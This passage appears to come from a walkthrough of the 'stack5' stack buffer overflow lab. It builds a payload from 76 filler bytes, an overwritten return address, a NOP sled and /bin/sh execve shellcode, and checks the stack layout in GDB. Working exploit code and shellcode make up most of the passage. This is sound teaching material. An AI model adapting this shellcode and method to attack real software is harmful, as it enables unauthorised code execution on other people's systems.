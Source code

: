 After a few tweaks, our payload will now look like the following. You will notice I have added a little NOP sled between the EIP overwite and the start of our payload. This effectively gives us a range of addresses we can jump to - without accidentally missing any important shellcode bytes:

```
python -c 'print "A"*76 + "BBBB" + "\x90"*8 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > /tmp/stack5
```

Running in GDB and placing a breakpoint of gets(), we can see our stack now looks like the following after we have given the process our input:

```
(gdb) x/50wx $esp
0xbffffc00:	0xbffffc10	0xb7ec6165	0xbffffc18	0xb7eada75
0xbffffc10:	0x41414141	0x41414141	0x41414141	0x41414141 <-- Junk buffer
0xbffffc20:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc30:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc40:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc50:	0x41414141	0x41414141	0x41414141	0x42424242 <-- EIP overwrite
0xbffffc60:	0x90909090	0x90909090	0x6850c031	0x68732f2f <-- 8 NOPs and shellcode
0xbffffc70:	0x69622f68	0x50e3896e	0xb0e18953	0x0080cd0b
0xbffffc80:	0x00000001	0xbffffcc0	0xb7ff0626	0xb7fffab0
0xbffffc90:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffffca0:	0xbffffcd8	0x467eb6f5	0x6c3e00e5	0x00000000
0xbffffcb0:	0x00000000	0x00000000	0x00000001	0x08048310
0xbffffcc0:	0x00000000	0xb7ff6210
```

Everything looks great to me, we can see our input starts at "0xbffffc10", our EIP overwrite lies at "0xbffffc5c", our NOP sled starts at "0xbffffc60" and finally the shellcode starts at "0xbffffc68". We should now be able to set our EIP to any address between "0xbffffc60" and "0xbffffc67" and we should land in our shellcode. For the following payload, I chose to use "0xbffffc64":

```
python -c 'print "A"*76 + "\x64\xfc\xff\xbf" + "\x90"*8 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > /tmp/stack5
```

Breaking at the same point as before, our stack now looks like this:

```
(gdb) x/50wx $esp
0xbffffc00:	0xbffffc10	0xb7ec6165	0xbffffc18	0xb7eada75
0xbffffc10:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc20:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc30:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc40:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc50:	0x41414141	0x41414141	0x41414141	0xbffffc64 <-- EIP
0xbffffc60:	0x90909090	0x90909090	0x6850c031	0x68732f2f
0xbffffc70:	0x69622f68	0x50e3896e	0xb0e18953	0x0080cd0b
0xbffffc80:	0x00000001	0xbffffcc0	0xb7ff0626	0xb7fffab0
0xbffffc90:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
```

From the following output, you can see that the flow of execution worked correctly, and our new "/bin/dash" program appeared to execute!
